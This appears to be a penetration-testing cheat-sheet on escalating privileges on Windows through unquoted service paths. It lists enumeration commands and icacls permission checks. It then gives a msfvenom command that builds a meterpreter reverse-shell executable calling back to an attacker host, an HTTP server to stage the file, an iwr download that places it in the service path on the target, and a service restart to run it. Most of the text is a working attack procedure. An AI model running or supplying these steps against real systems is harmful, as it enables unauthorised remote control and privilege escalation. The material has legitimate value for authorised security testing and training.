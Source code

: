 We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o reverse.exe
```
Configure webserver to host file for transfer and listener for meterpreter shell:
```bash
python -m http.server 80
```
```bash
msfconsole
```
```bash
search multi/handler
```
Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/reverse.exe -Outfile C:\Vulnerable\Service\Path.exe
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
